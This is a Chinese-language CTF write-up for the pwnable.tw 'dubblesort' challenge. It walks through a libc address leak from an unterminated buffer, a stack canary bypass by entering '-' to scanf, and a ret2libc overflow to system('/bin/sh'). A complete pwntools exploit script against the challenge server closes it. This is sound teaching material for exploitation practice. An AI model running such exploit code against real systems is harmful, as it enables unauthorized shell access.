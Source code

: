 # dubblesort

这个出题人的英文是不是不太好？

## checksec

```shell
[*] '/home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

所有保护全开。

## ida

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int count; // eax
  unsigned int *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int _count; // [esp+18h] [ebp-74h] BYREF
  unsigned int num[8]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  init();
  __printf_chk(1, (int)"What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, (int)"Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &_count);
  count = _count;
  if ( _count )
  {
    v4 = num;
    for ( i = 0; i < _count; ++i )
    {
      __printf_chk(1, (int)"Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      count = _count;
      ++v4;
    }
  }
  bubblesort(num, count);
  puts("Result :");
  if ( _count )
  {
    for ( j = 0; j < _count; ++j )
      __printf_chk(1, (int)"%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    check_canary();
  return result;
```

程序看上去是没有任何问题，漏洞在程序函数的实现上。

使用`read`函数读取的`buf`是用`\x0a`进行截断的。而`printf`在输出字符串的时候是用`\x00`进行截断，所以可以用来泄露栈上的内容。而通过输入数字的数量我们可以实现栈溢出。

在我们输入的字符串的附近：

```shell
0f:003c│ ecx esi  0xffffcdac ◂— 'aaaabbbb\n'
10:0040│          0xffffcdb0 ◂— 'bbbb\n'
11:0044│          0xffffcdb4 ◂— 0xa /* '\n' */
12:0048│          0xffffcdb8 —▸ 0x56555034 ◂— push   es
13:004c│          0xffffcdbc ◂— 0x16
14:0050│          0xffffcdc0 ◂— 0x8000
15:0054│          0xffffcdc4 —▸ 0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
```

有一个(\_GLOBAL_OFFSET_TABLE_)，明显它的地址的libc中的，查看它在libc中的偏移。

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x56555000 0x56556000 r-xp     1000 0      /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0x56556000 0x56557000 r--p     1000 0      /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0x56557000 0x56558000 rw-p     1000 1000   /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0xf7e01000 0xf7e02000 rw-p     1000 0      
0xf7e02000 0xf7fb2000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb2000 0xf7fb3000 ---p     1000 1b0000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb5000 r--p     2000 1b0000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb5000 0xf7fb6000 rw-p     1000 1b2000 /lib/i386-linux-gnu/libc-2.23.so
```

0xf7fb5000-0xf7e02000=0x1b3000，这里我们加载的是本地libc所以查看libc的节信息。

```shell
  [32] .got.plt          PROGBITS        001b3000 1b2000 000030 04  WA  0   0  4
```

其为`.got.plt`节，再查看服务器上libc的偏移

```shell
  [31] .got.plt          PROGBITS        001b0000 1af000 000030 04  WA  0   0  4
```

> .got
>
> This is the GOT, or Global Offset Table. This is the actual table of offsets as filled in by the linker for external symbols.
>
> .plt
>
> This is the PLT, or Procedure Linkage Table. These are stubs that look up the addresses in the `.got.plt` section, and either jump to the right address, or trigger the code in the linker to look up the address. (If the address has not been filled in to `.got.plt` yet.)
>
> .got.plt
>
> This is the GOT for the PLT. It contains the target addresses (after they have been looked up) or an address back in the `.plt` to trigger the lookup. Classically, this data was part of the `.got` section.


```assembly
.text:00000AF9                 mov     eax, 0
.text:00000AFE                 mov     edx, [esp+7Ch]
.text:00000B02                 xor     edx, large gs:14h
.text:00000B09                 jz      short loc_B10
.text:00000B0B                 call    check_canary
```

经过调试，发现canary被放入了`esp+0x7c`的位置。因为会进行排序，而为了修改返回地址，我们会遇到canary。所以在canary前输入比其小的数字‘0’，通过输入符号绕过canary，之后输入比canary大的内容。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./dubblesort'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10101)

elf = ELF(binary,checksec=False)
libc=ELF('./libc_32.so.6',checksec=False)
p.sendline('a'*0x18)

libcbase=u32(p.recvuntil('\xf7')[-4:])-0xa-0x1b0000
print hex(libcbase)
system=libcbase+libc.symbols['system']
bin_sh=libcbase+0x00158e8b

p.sendline('35')
payload='0'*0x18+'-'+9*str(system)+str(bin_sh)

for i in range(24):
    p.sendline('0')
    
p.sendline('-')
for i in range(9):
    p.sendline(str(system))

p.sendline(str(bin_sh))

p.interactive()
```
